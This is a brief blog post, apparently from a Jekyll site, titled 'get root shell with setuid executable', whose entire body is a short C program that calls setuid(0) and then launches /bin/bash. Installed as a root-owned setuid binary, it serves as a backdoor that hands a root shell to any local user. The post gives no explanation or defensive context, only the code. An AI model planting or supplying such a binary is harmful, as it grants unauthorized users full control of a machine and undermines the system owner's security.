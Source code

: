 ```yaml
---
layout: post
title: "get root shell with setuid executable"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}



<pre><code>
#include &lt;unistd.h&gt;

int main() {
  const char *b = "/bin/bash";
  setuid(0);
  execl(b, b, 0);
}
</code></pre>


